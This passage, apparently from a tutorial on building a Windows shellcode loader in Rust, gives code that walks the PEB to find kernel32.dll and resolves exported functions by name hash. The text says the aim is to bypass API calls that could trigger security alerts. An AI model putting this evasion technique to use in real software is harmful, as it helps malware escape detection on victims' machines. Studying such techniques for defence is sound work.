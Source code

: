 ```rust
        table_entry_ptr = (*table_entry_ptr).InLoadOrderLinks.Flink as *mut LDR_DATA_TABLE_ENTRY;
    }

    None
}

#[link_section = ".text"]
unsafe fn get_peb_ptr() -> *mut PEB {
    // TEB located at offset 0x30 from the GS register on 64-bit
    let teb: *mut TEB;
    asm!("mov {teb}, gs:[0x30]", teb = out(reg) teb);

    (*teb).ProcessEnvironmentBlock as *mut PEB
}
```

### Locating exports

After locating the base address of `kernel32.dll`, our next step is to identify the addresses of the specific functions we need. This requires an understanding of the Windows Portable Executable (PE) file format.

A PE file is structured into various components, including the DOS Header, DOS Stub, NT Headers, and a Section Table, which houses the actual file contents in segments like `.text` and `.data`. Our focus is on the Export Directory located within the NT Headers, a section that lists exported functions and their addresses. We can access the Export Directory by utilizing the `IMAGE_DIRECTORY_ENTRY_EXPORT` offset within the `IMAGE_DATA_DIRECTORY`.

Similar to how we navigated through modules, we now iterate through the Export Directory entries to locate our required functions. This way we're able to bypass the usual API call mechanisms that could trigger security alerts:

```rust
#[link_section = ".text"]
unsafe fn get_export_addr(module_base_ptr: *mut u8, function_hash: u32) -> Option<usize> {
    // NT Headers -> RVA of Export Directory Table -> function names, ordinals, and addresses
    let nt_headers_ptr = get_nt_headers_ptr(module_base_ptr).unwrap();
    let export_dir_ptr = (module_base_ptr as usize
        + (*nt_headers_ptr).OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT as usize]
            .VirtualAddress as usize) as *mut IMAGE_EXPORT_DIRECTORY;

    let names = from_raw_parts(
        (module_base_ptr as usize + (*export_dir_ptr).AddressOfNames as usize) as *const u32,
        (*export_dir_ptr).NumberOfNames as _,
    );
    let funcs = from_raw_parts(
        (module_base_ptr as usize + (*export_dir_ptr).AddressOfFunctions as usize) as *const u32,
        (*export_dir_ptr).NumberOfFunctions as _,
    );
    let ords = from_raw_parts(
        (module_base_ptr as usize + (*export_dir_ptr).AddressOfNameOrdinals as usize) as *const u16,
        (*export_dir_ptr).NumberOfNames as _,
    );

    // compare hashes iteratively for each entry
    for i in 0..(*export_dir_ptr).NumberOfNames {
        let name_ptr = (module_base_ptr as usize + names[i as usize] as usize) as *const i8;
        let name_len = get_cstr_len(name_ptr as _);
        let name_slice = from_raw_parts(name_ptr as _, name_len);

        if function_hash == airborne_common::calc_hash(name_slice) {
            return Some(module_base_ptr as usize + funcs[ords[i as usize] as usize] as usize);
        }
    }
```